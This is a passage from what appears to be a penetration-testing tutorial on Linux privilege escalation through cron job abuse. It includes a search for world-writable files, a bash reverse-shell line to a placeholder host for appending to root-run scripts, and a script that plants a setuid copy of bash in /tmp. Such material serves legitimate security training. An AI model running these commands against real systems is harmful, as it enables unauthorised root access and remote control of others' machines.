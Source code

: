 Using the previous step, identify the programs on the target system. Check their version, usually with the flag `-v` and search on Internet for exploits. Also we can run `dpkg -l` to a fast check.

---

# Cron Job Abuse

The `crontab` command can create a cron file in:
- `/etc/crontab`{: .filepath}
- `/etc/cron.d`{: .filepath}
- `/var/spool/cron/crontabs/root`{: .filepath}
- `/var/spool/cron`{: .filepath}. 

Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs. Certain applications create cron files in the `/etc/cron.d`{: .filepath} directory and may be misconfigured to allow a non-root user to edit them.

Let's look around the system for any writeable files or directories:
```console
zero@pio$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

Move to suspicious folders and inspect them:
```console
zero@pio$ ls -la ./suspicious/
```

If editing a script, make sure to **ALWAYS** take a copy of the script and/or create a backup of it. To append a reverse shell we can a simply line to a script as:
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

Open a netcat listener and wait to connect. There are other ways. If in the `/etc/crontab`{: .filepath} we have the PATH with the `/home/user`{: .filepath} we can create the following script in the home:
```console
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

We need to give execution permission and wait to the crontab to execute the file. Then do
```console
$ /tmp/rootbash -p
```

--- 

# Special Permissions 
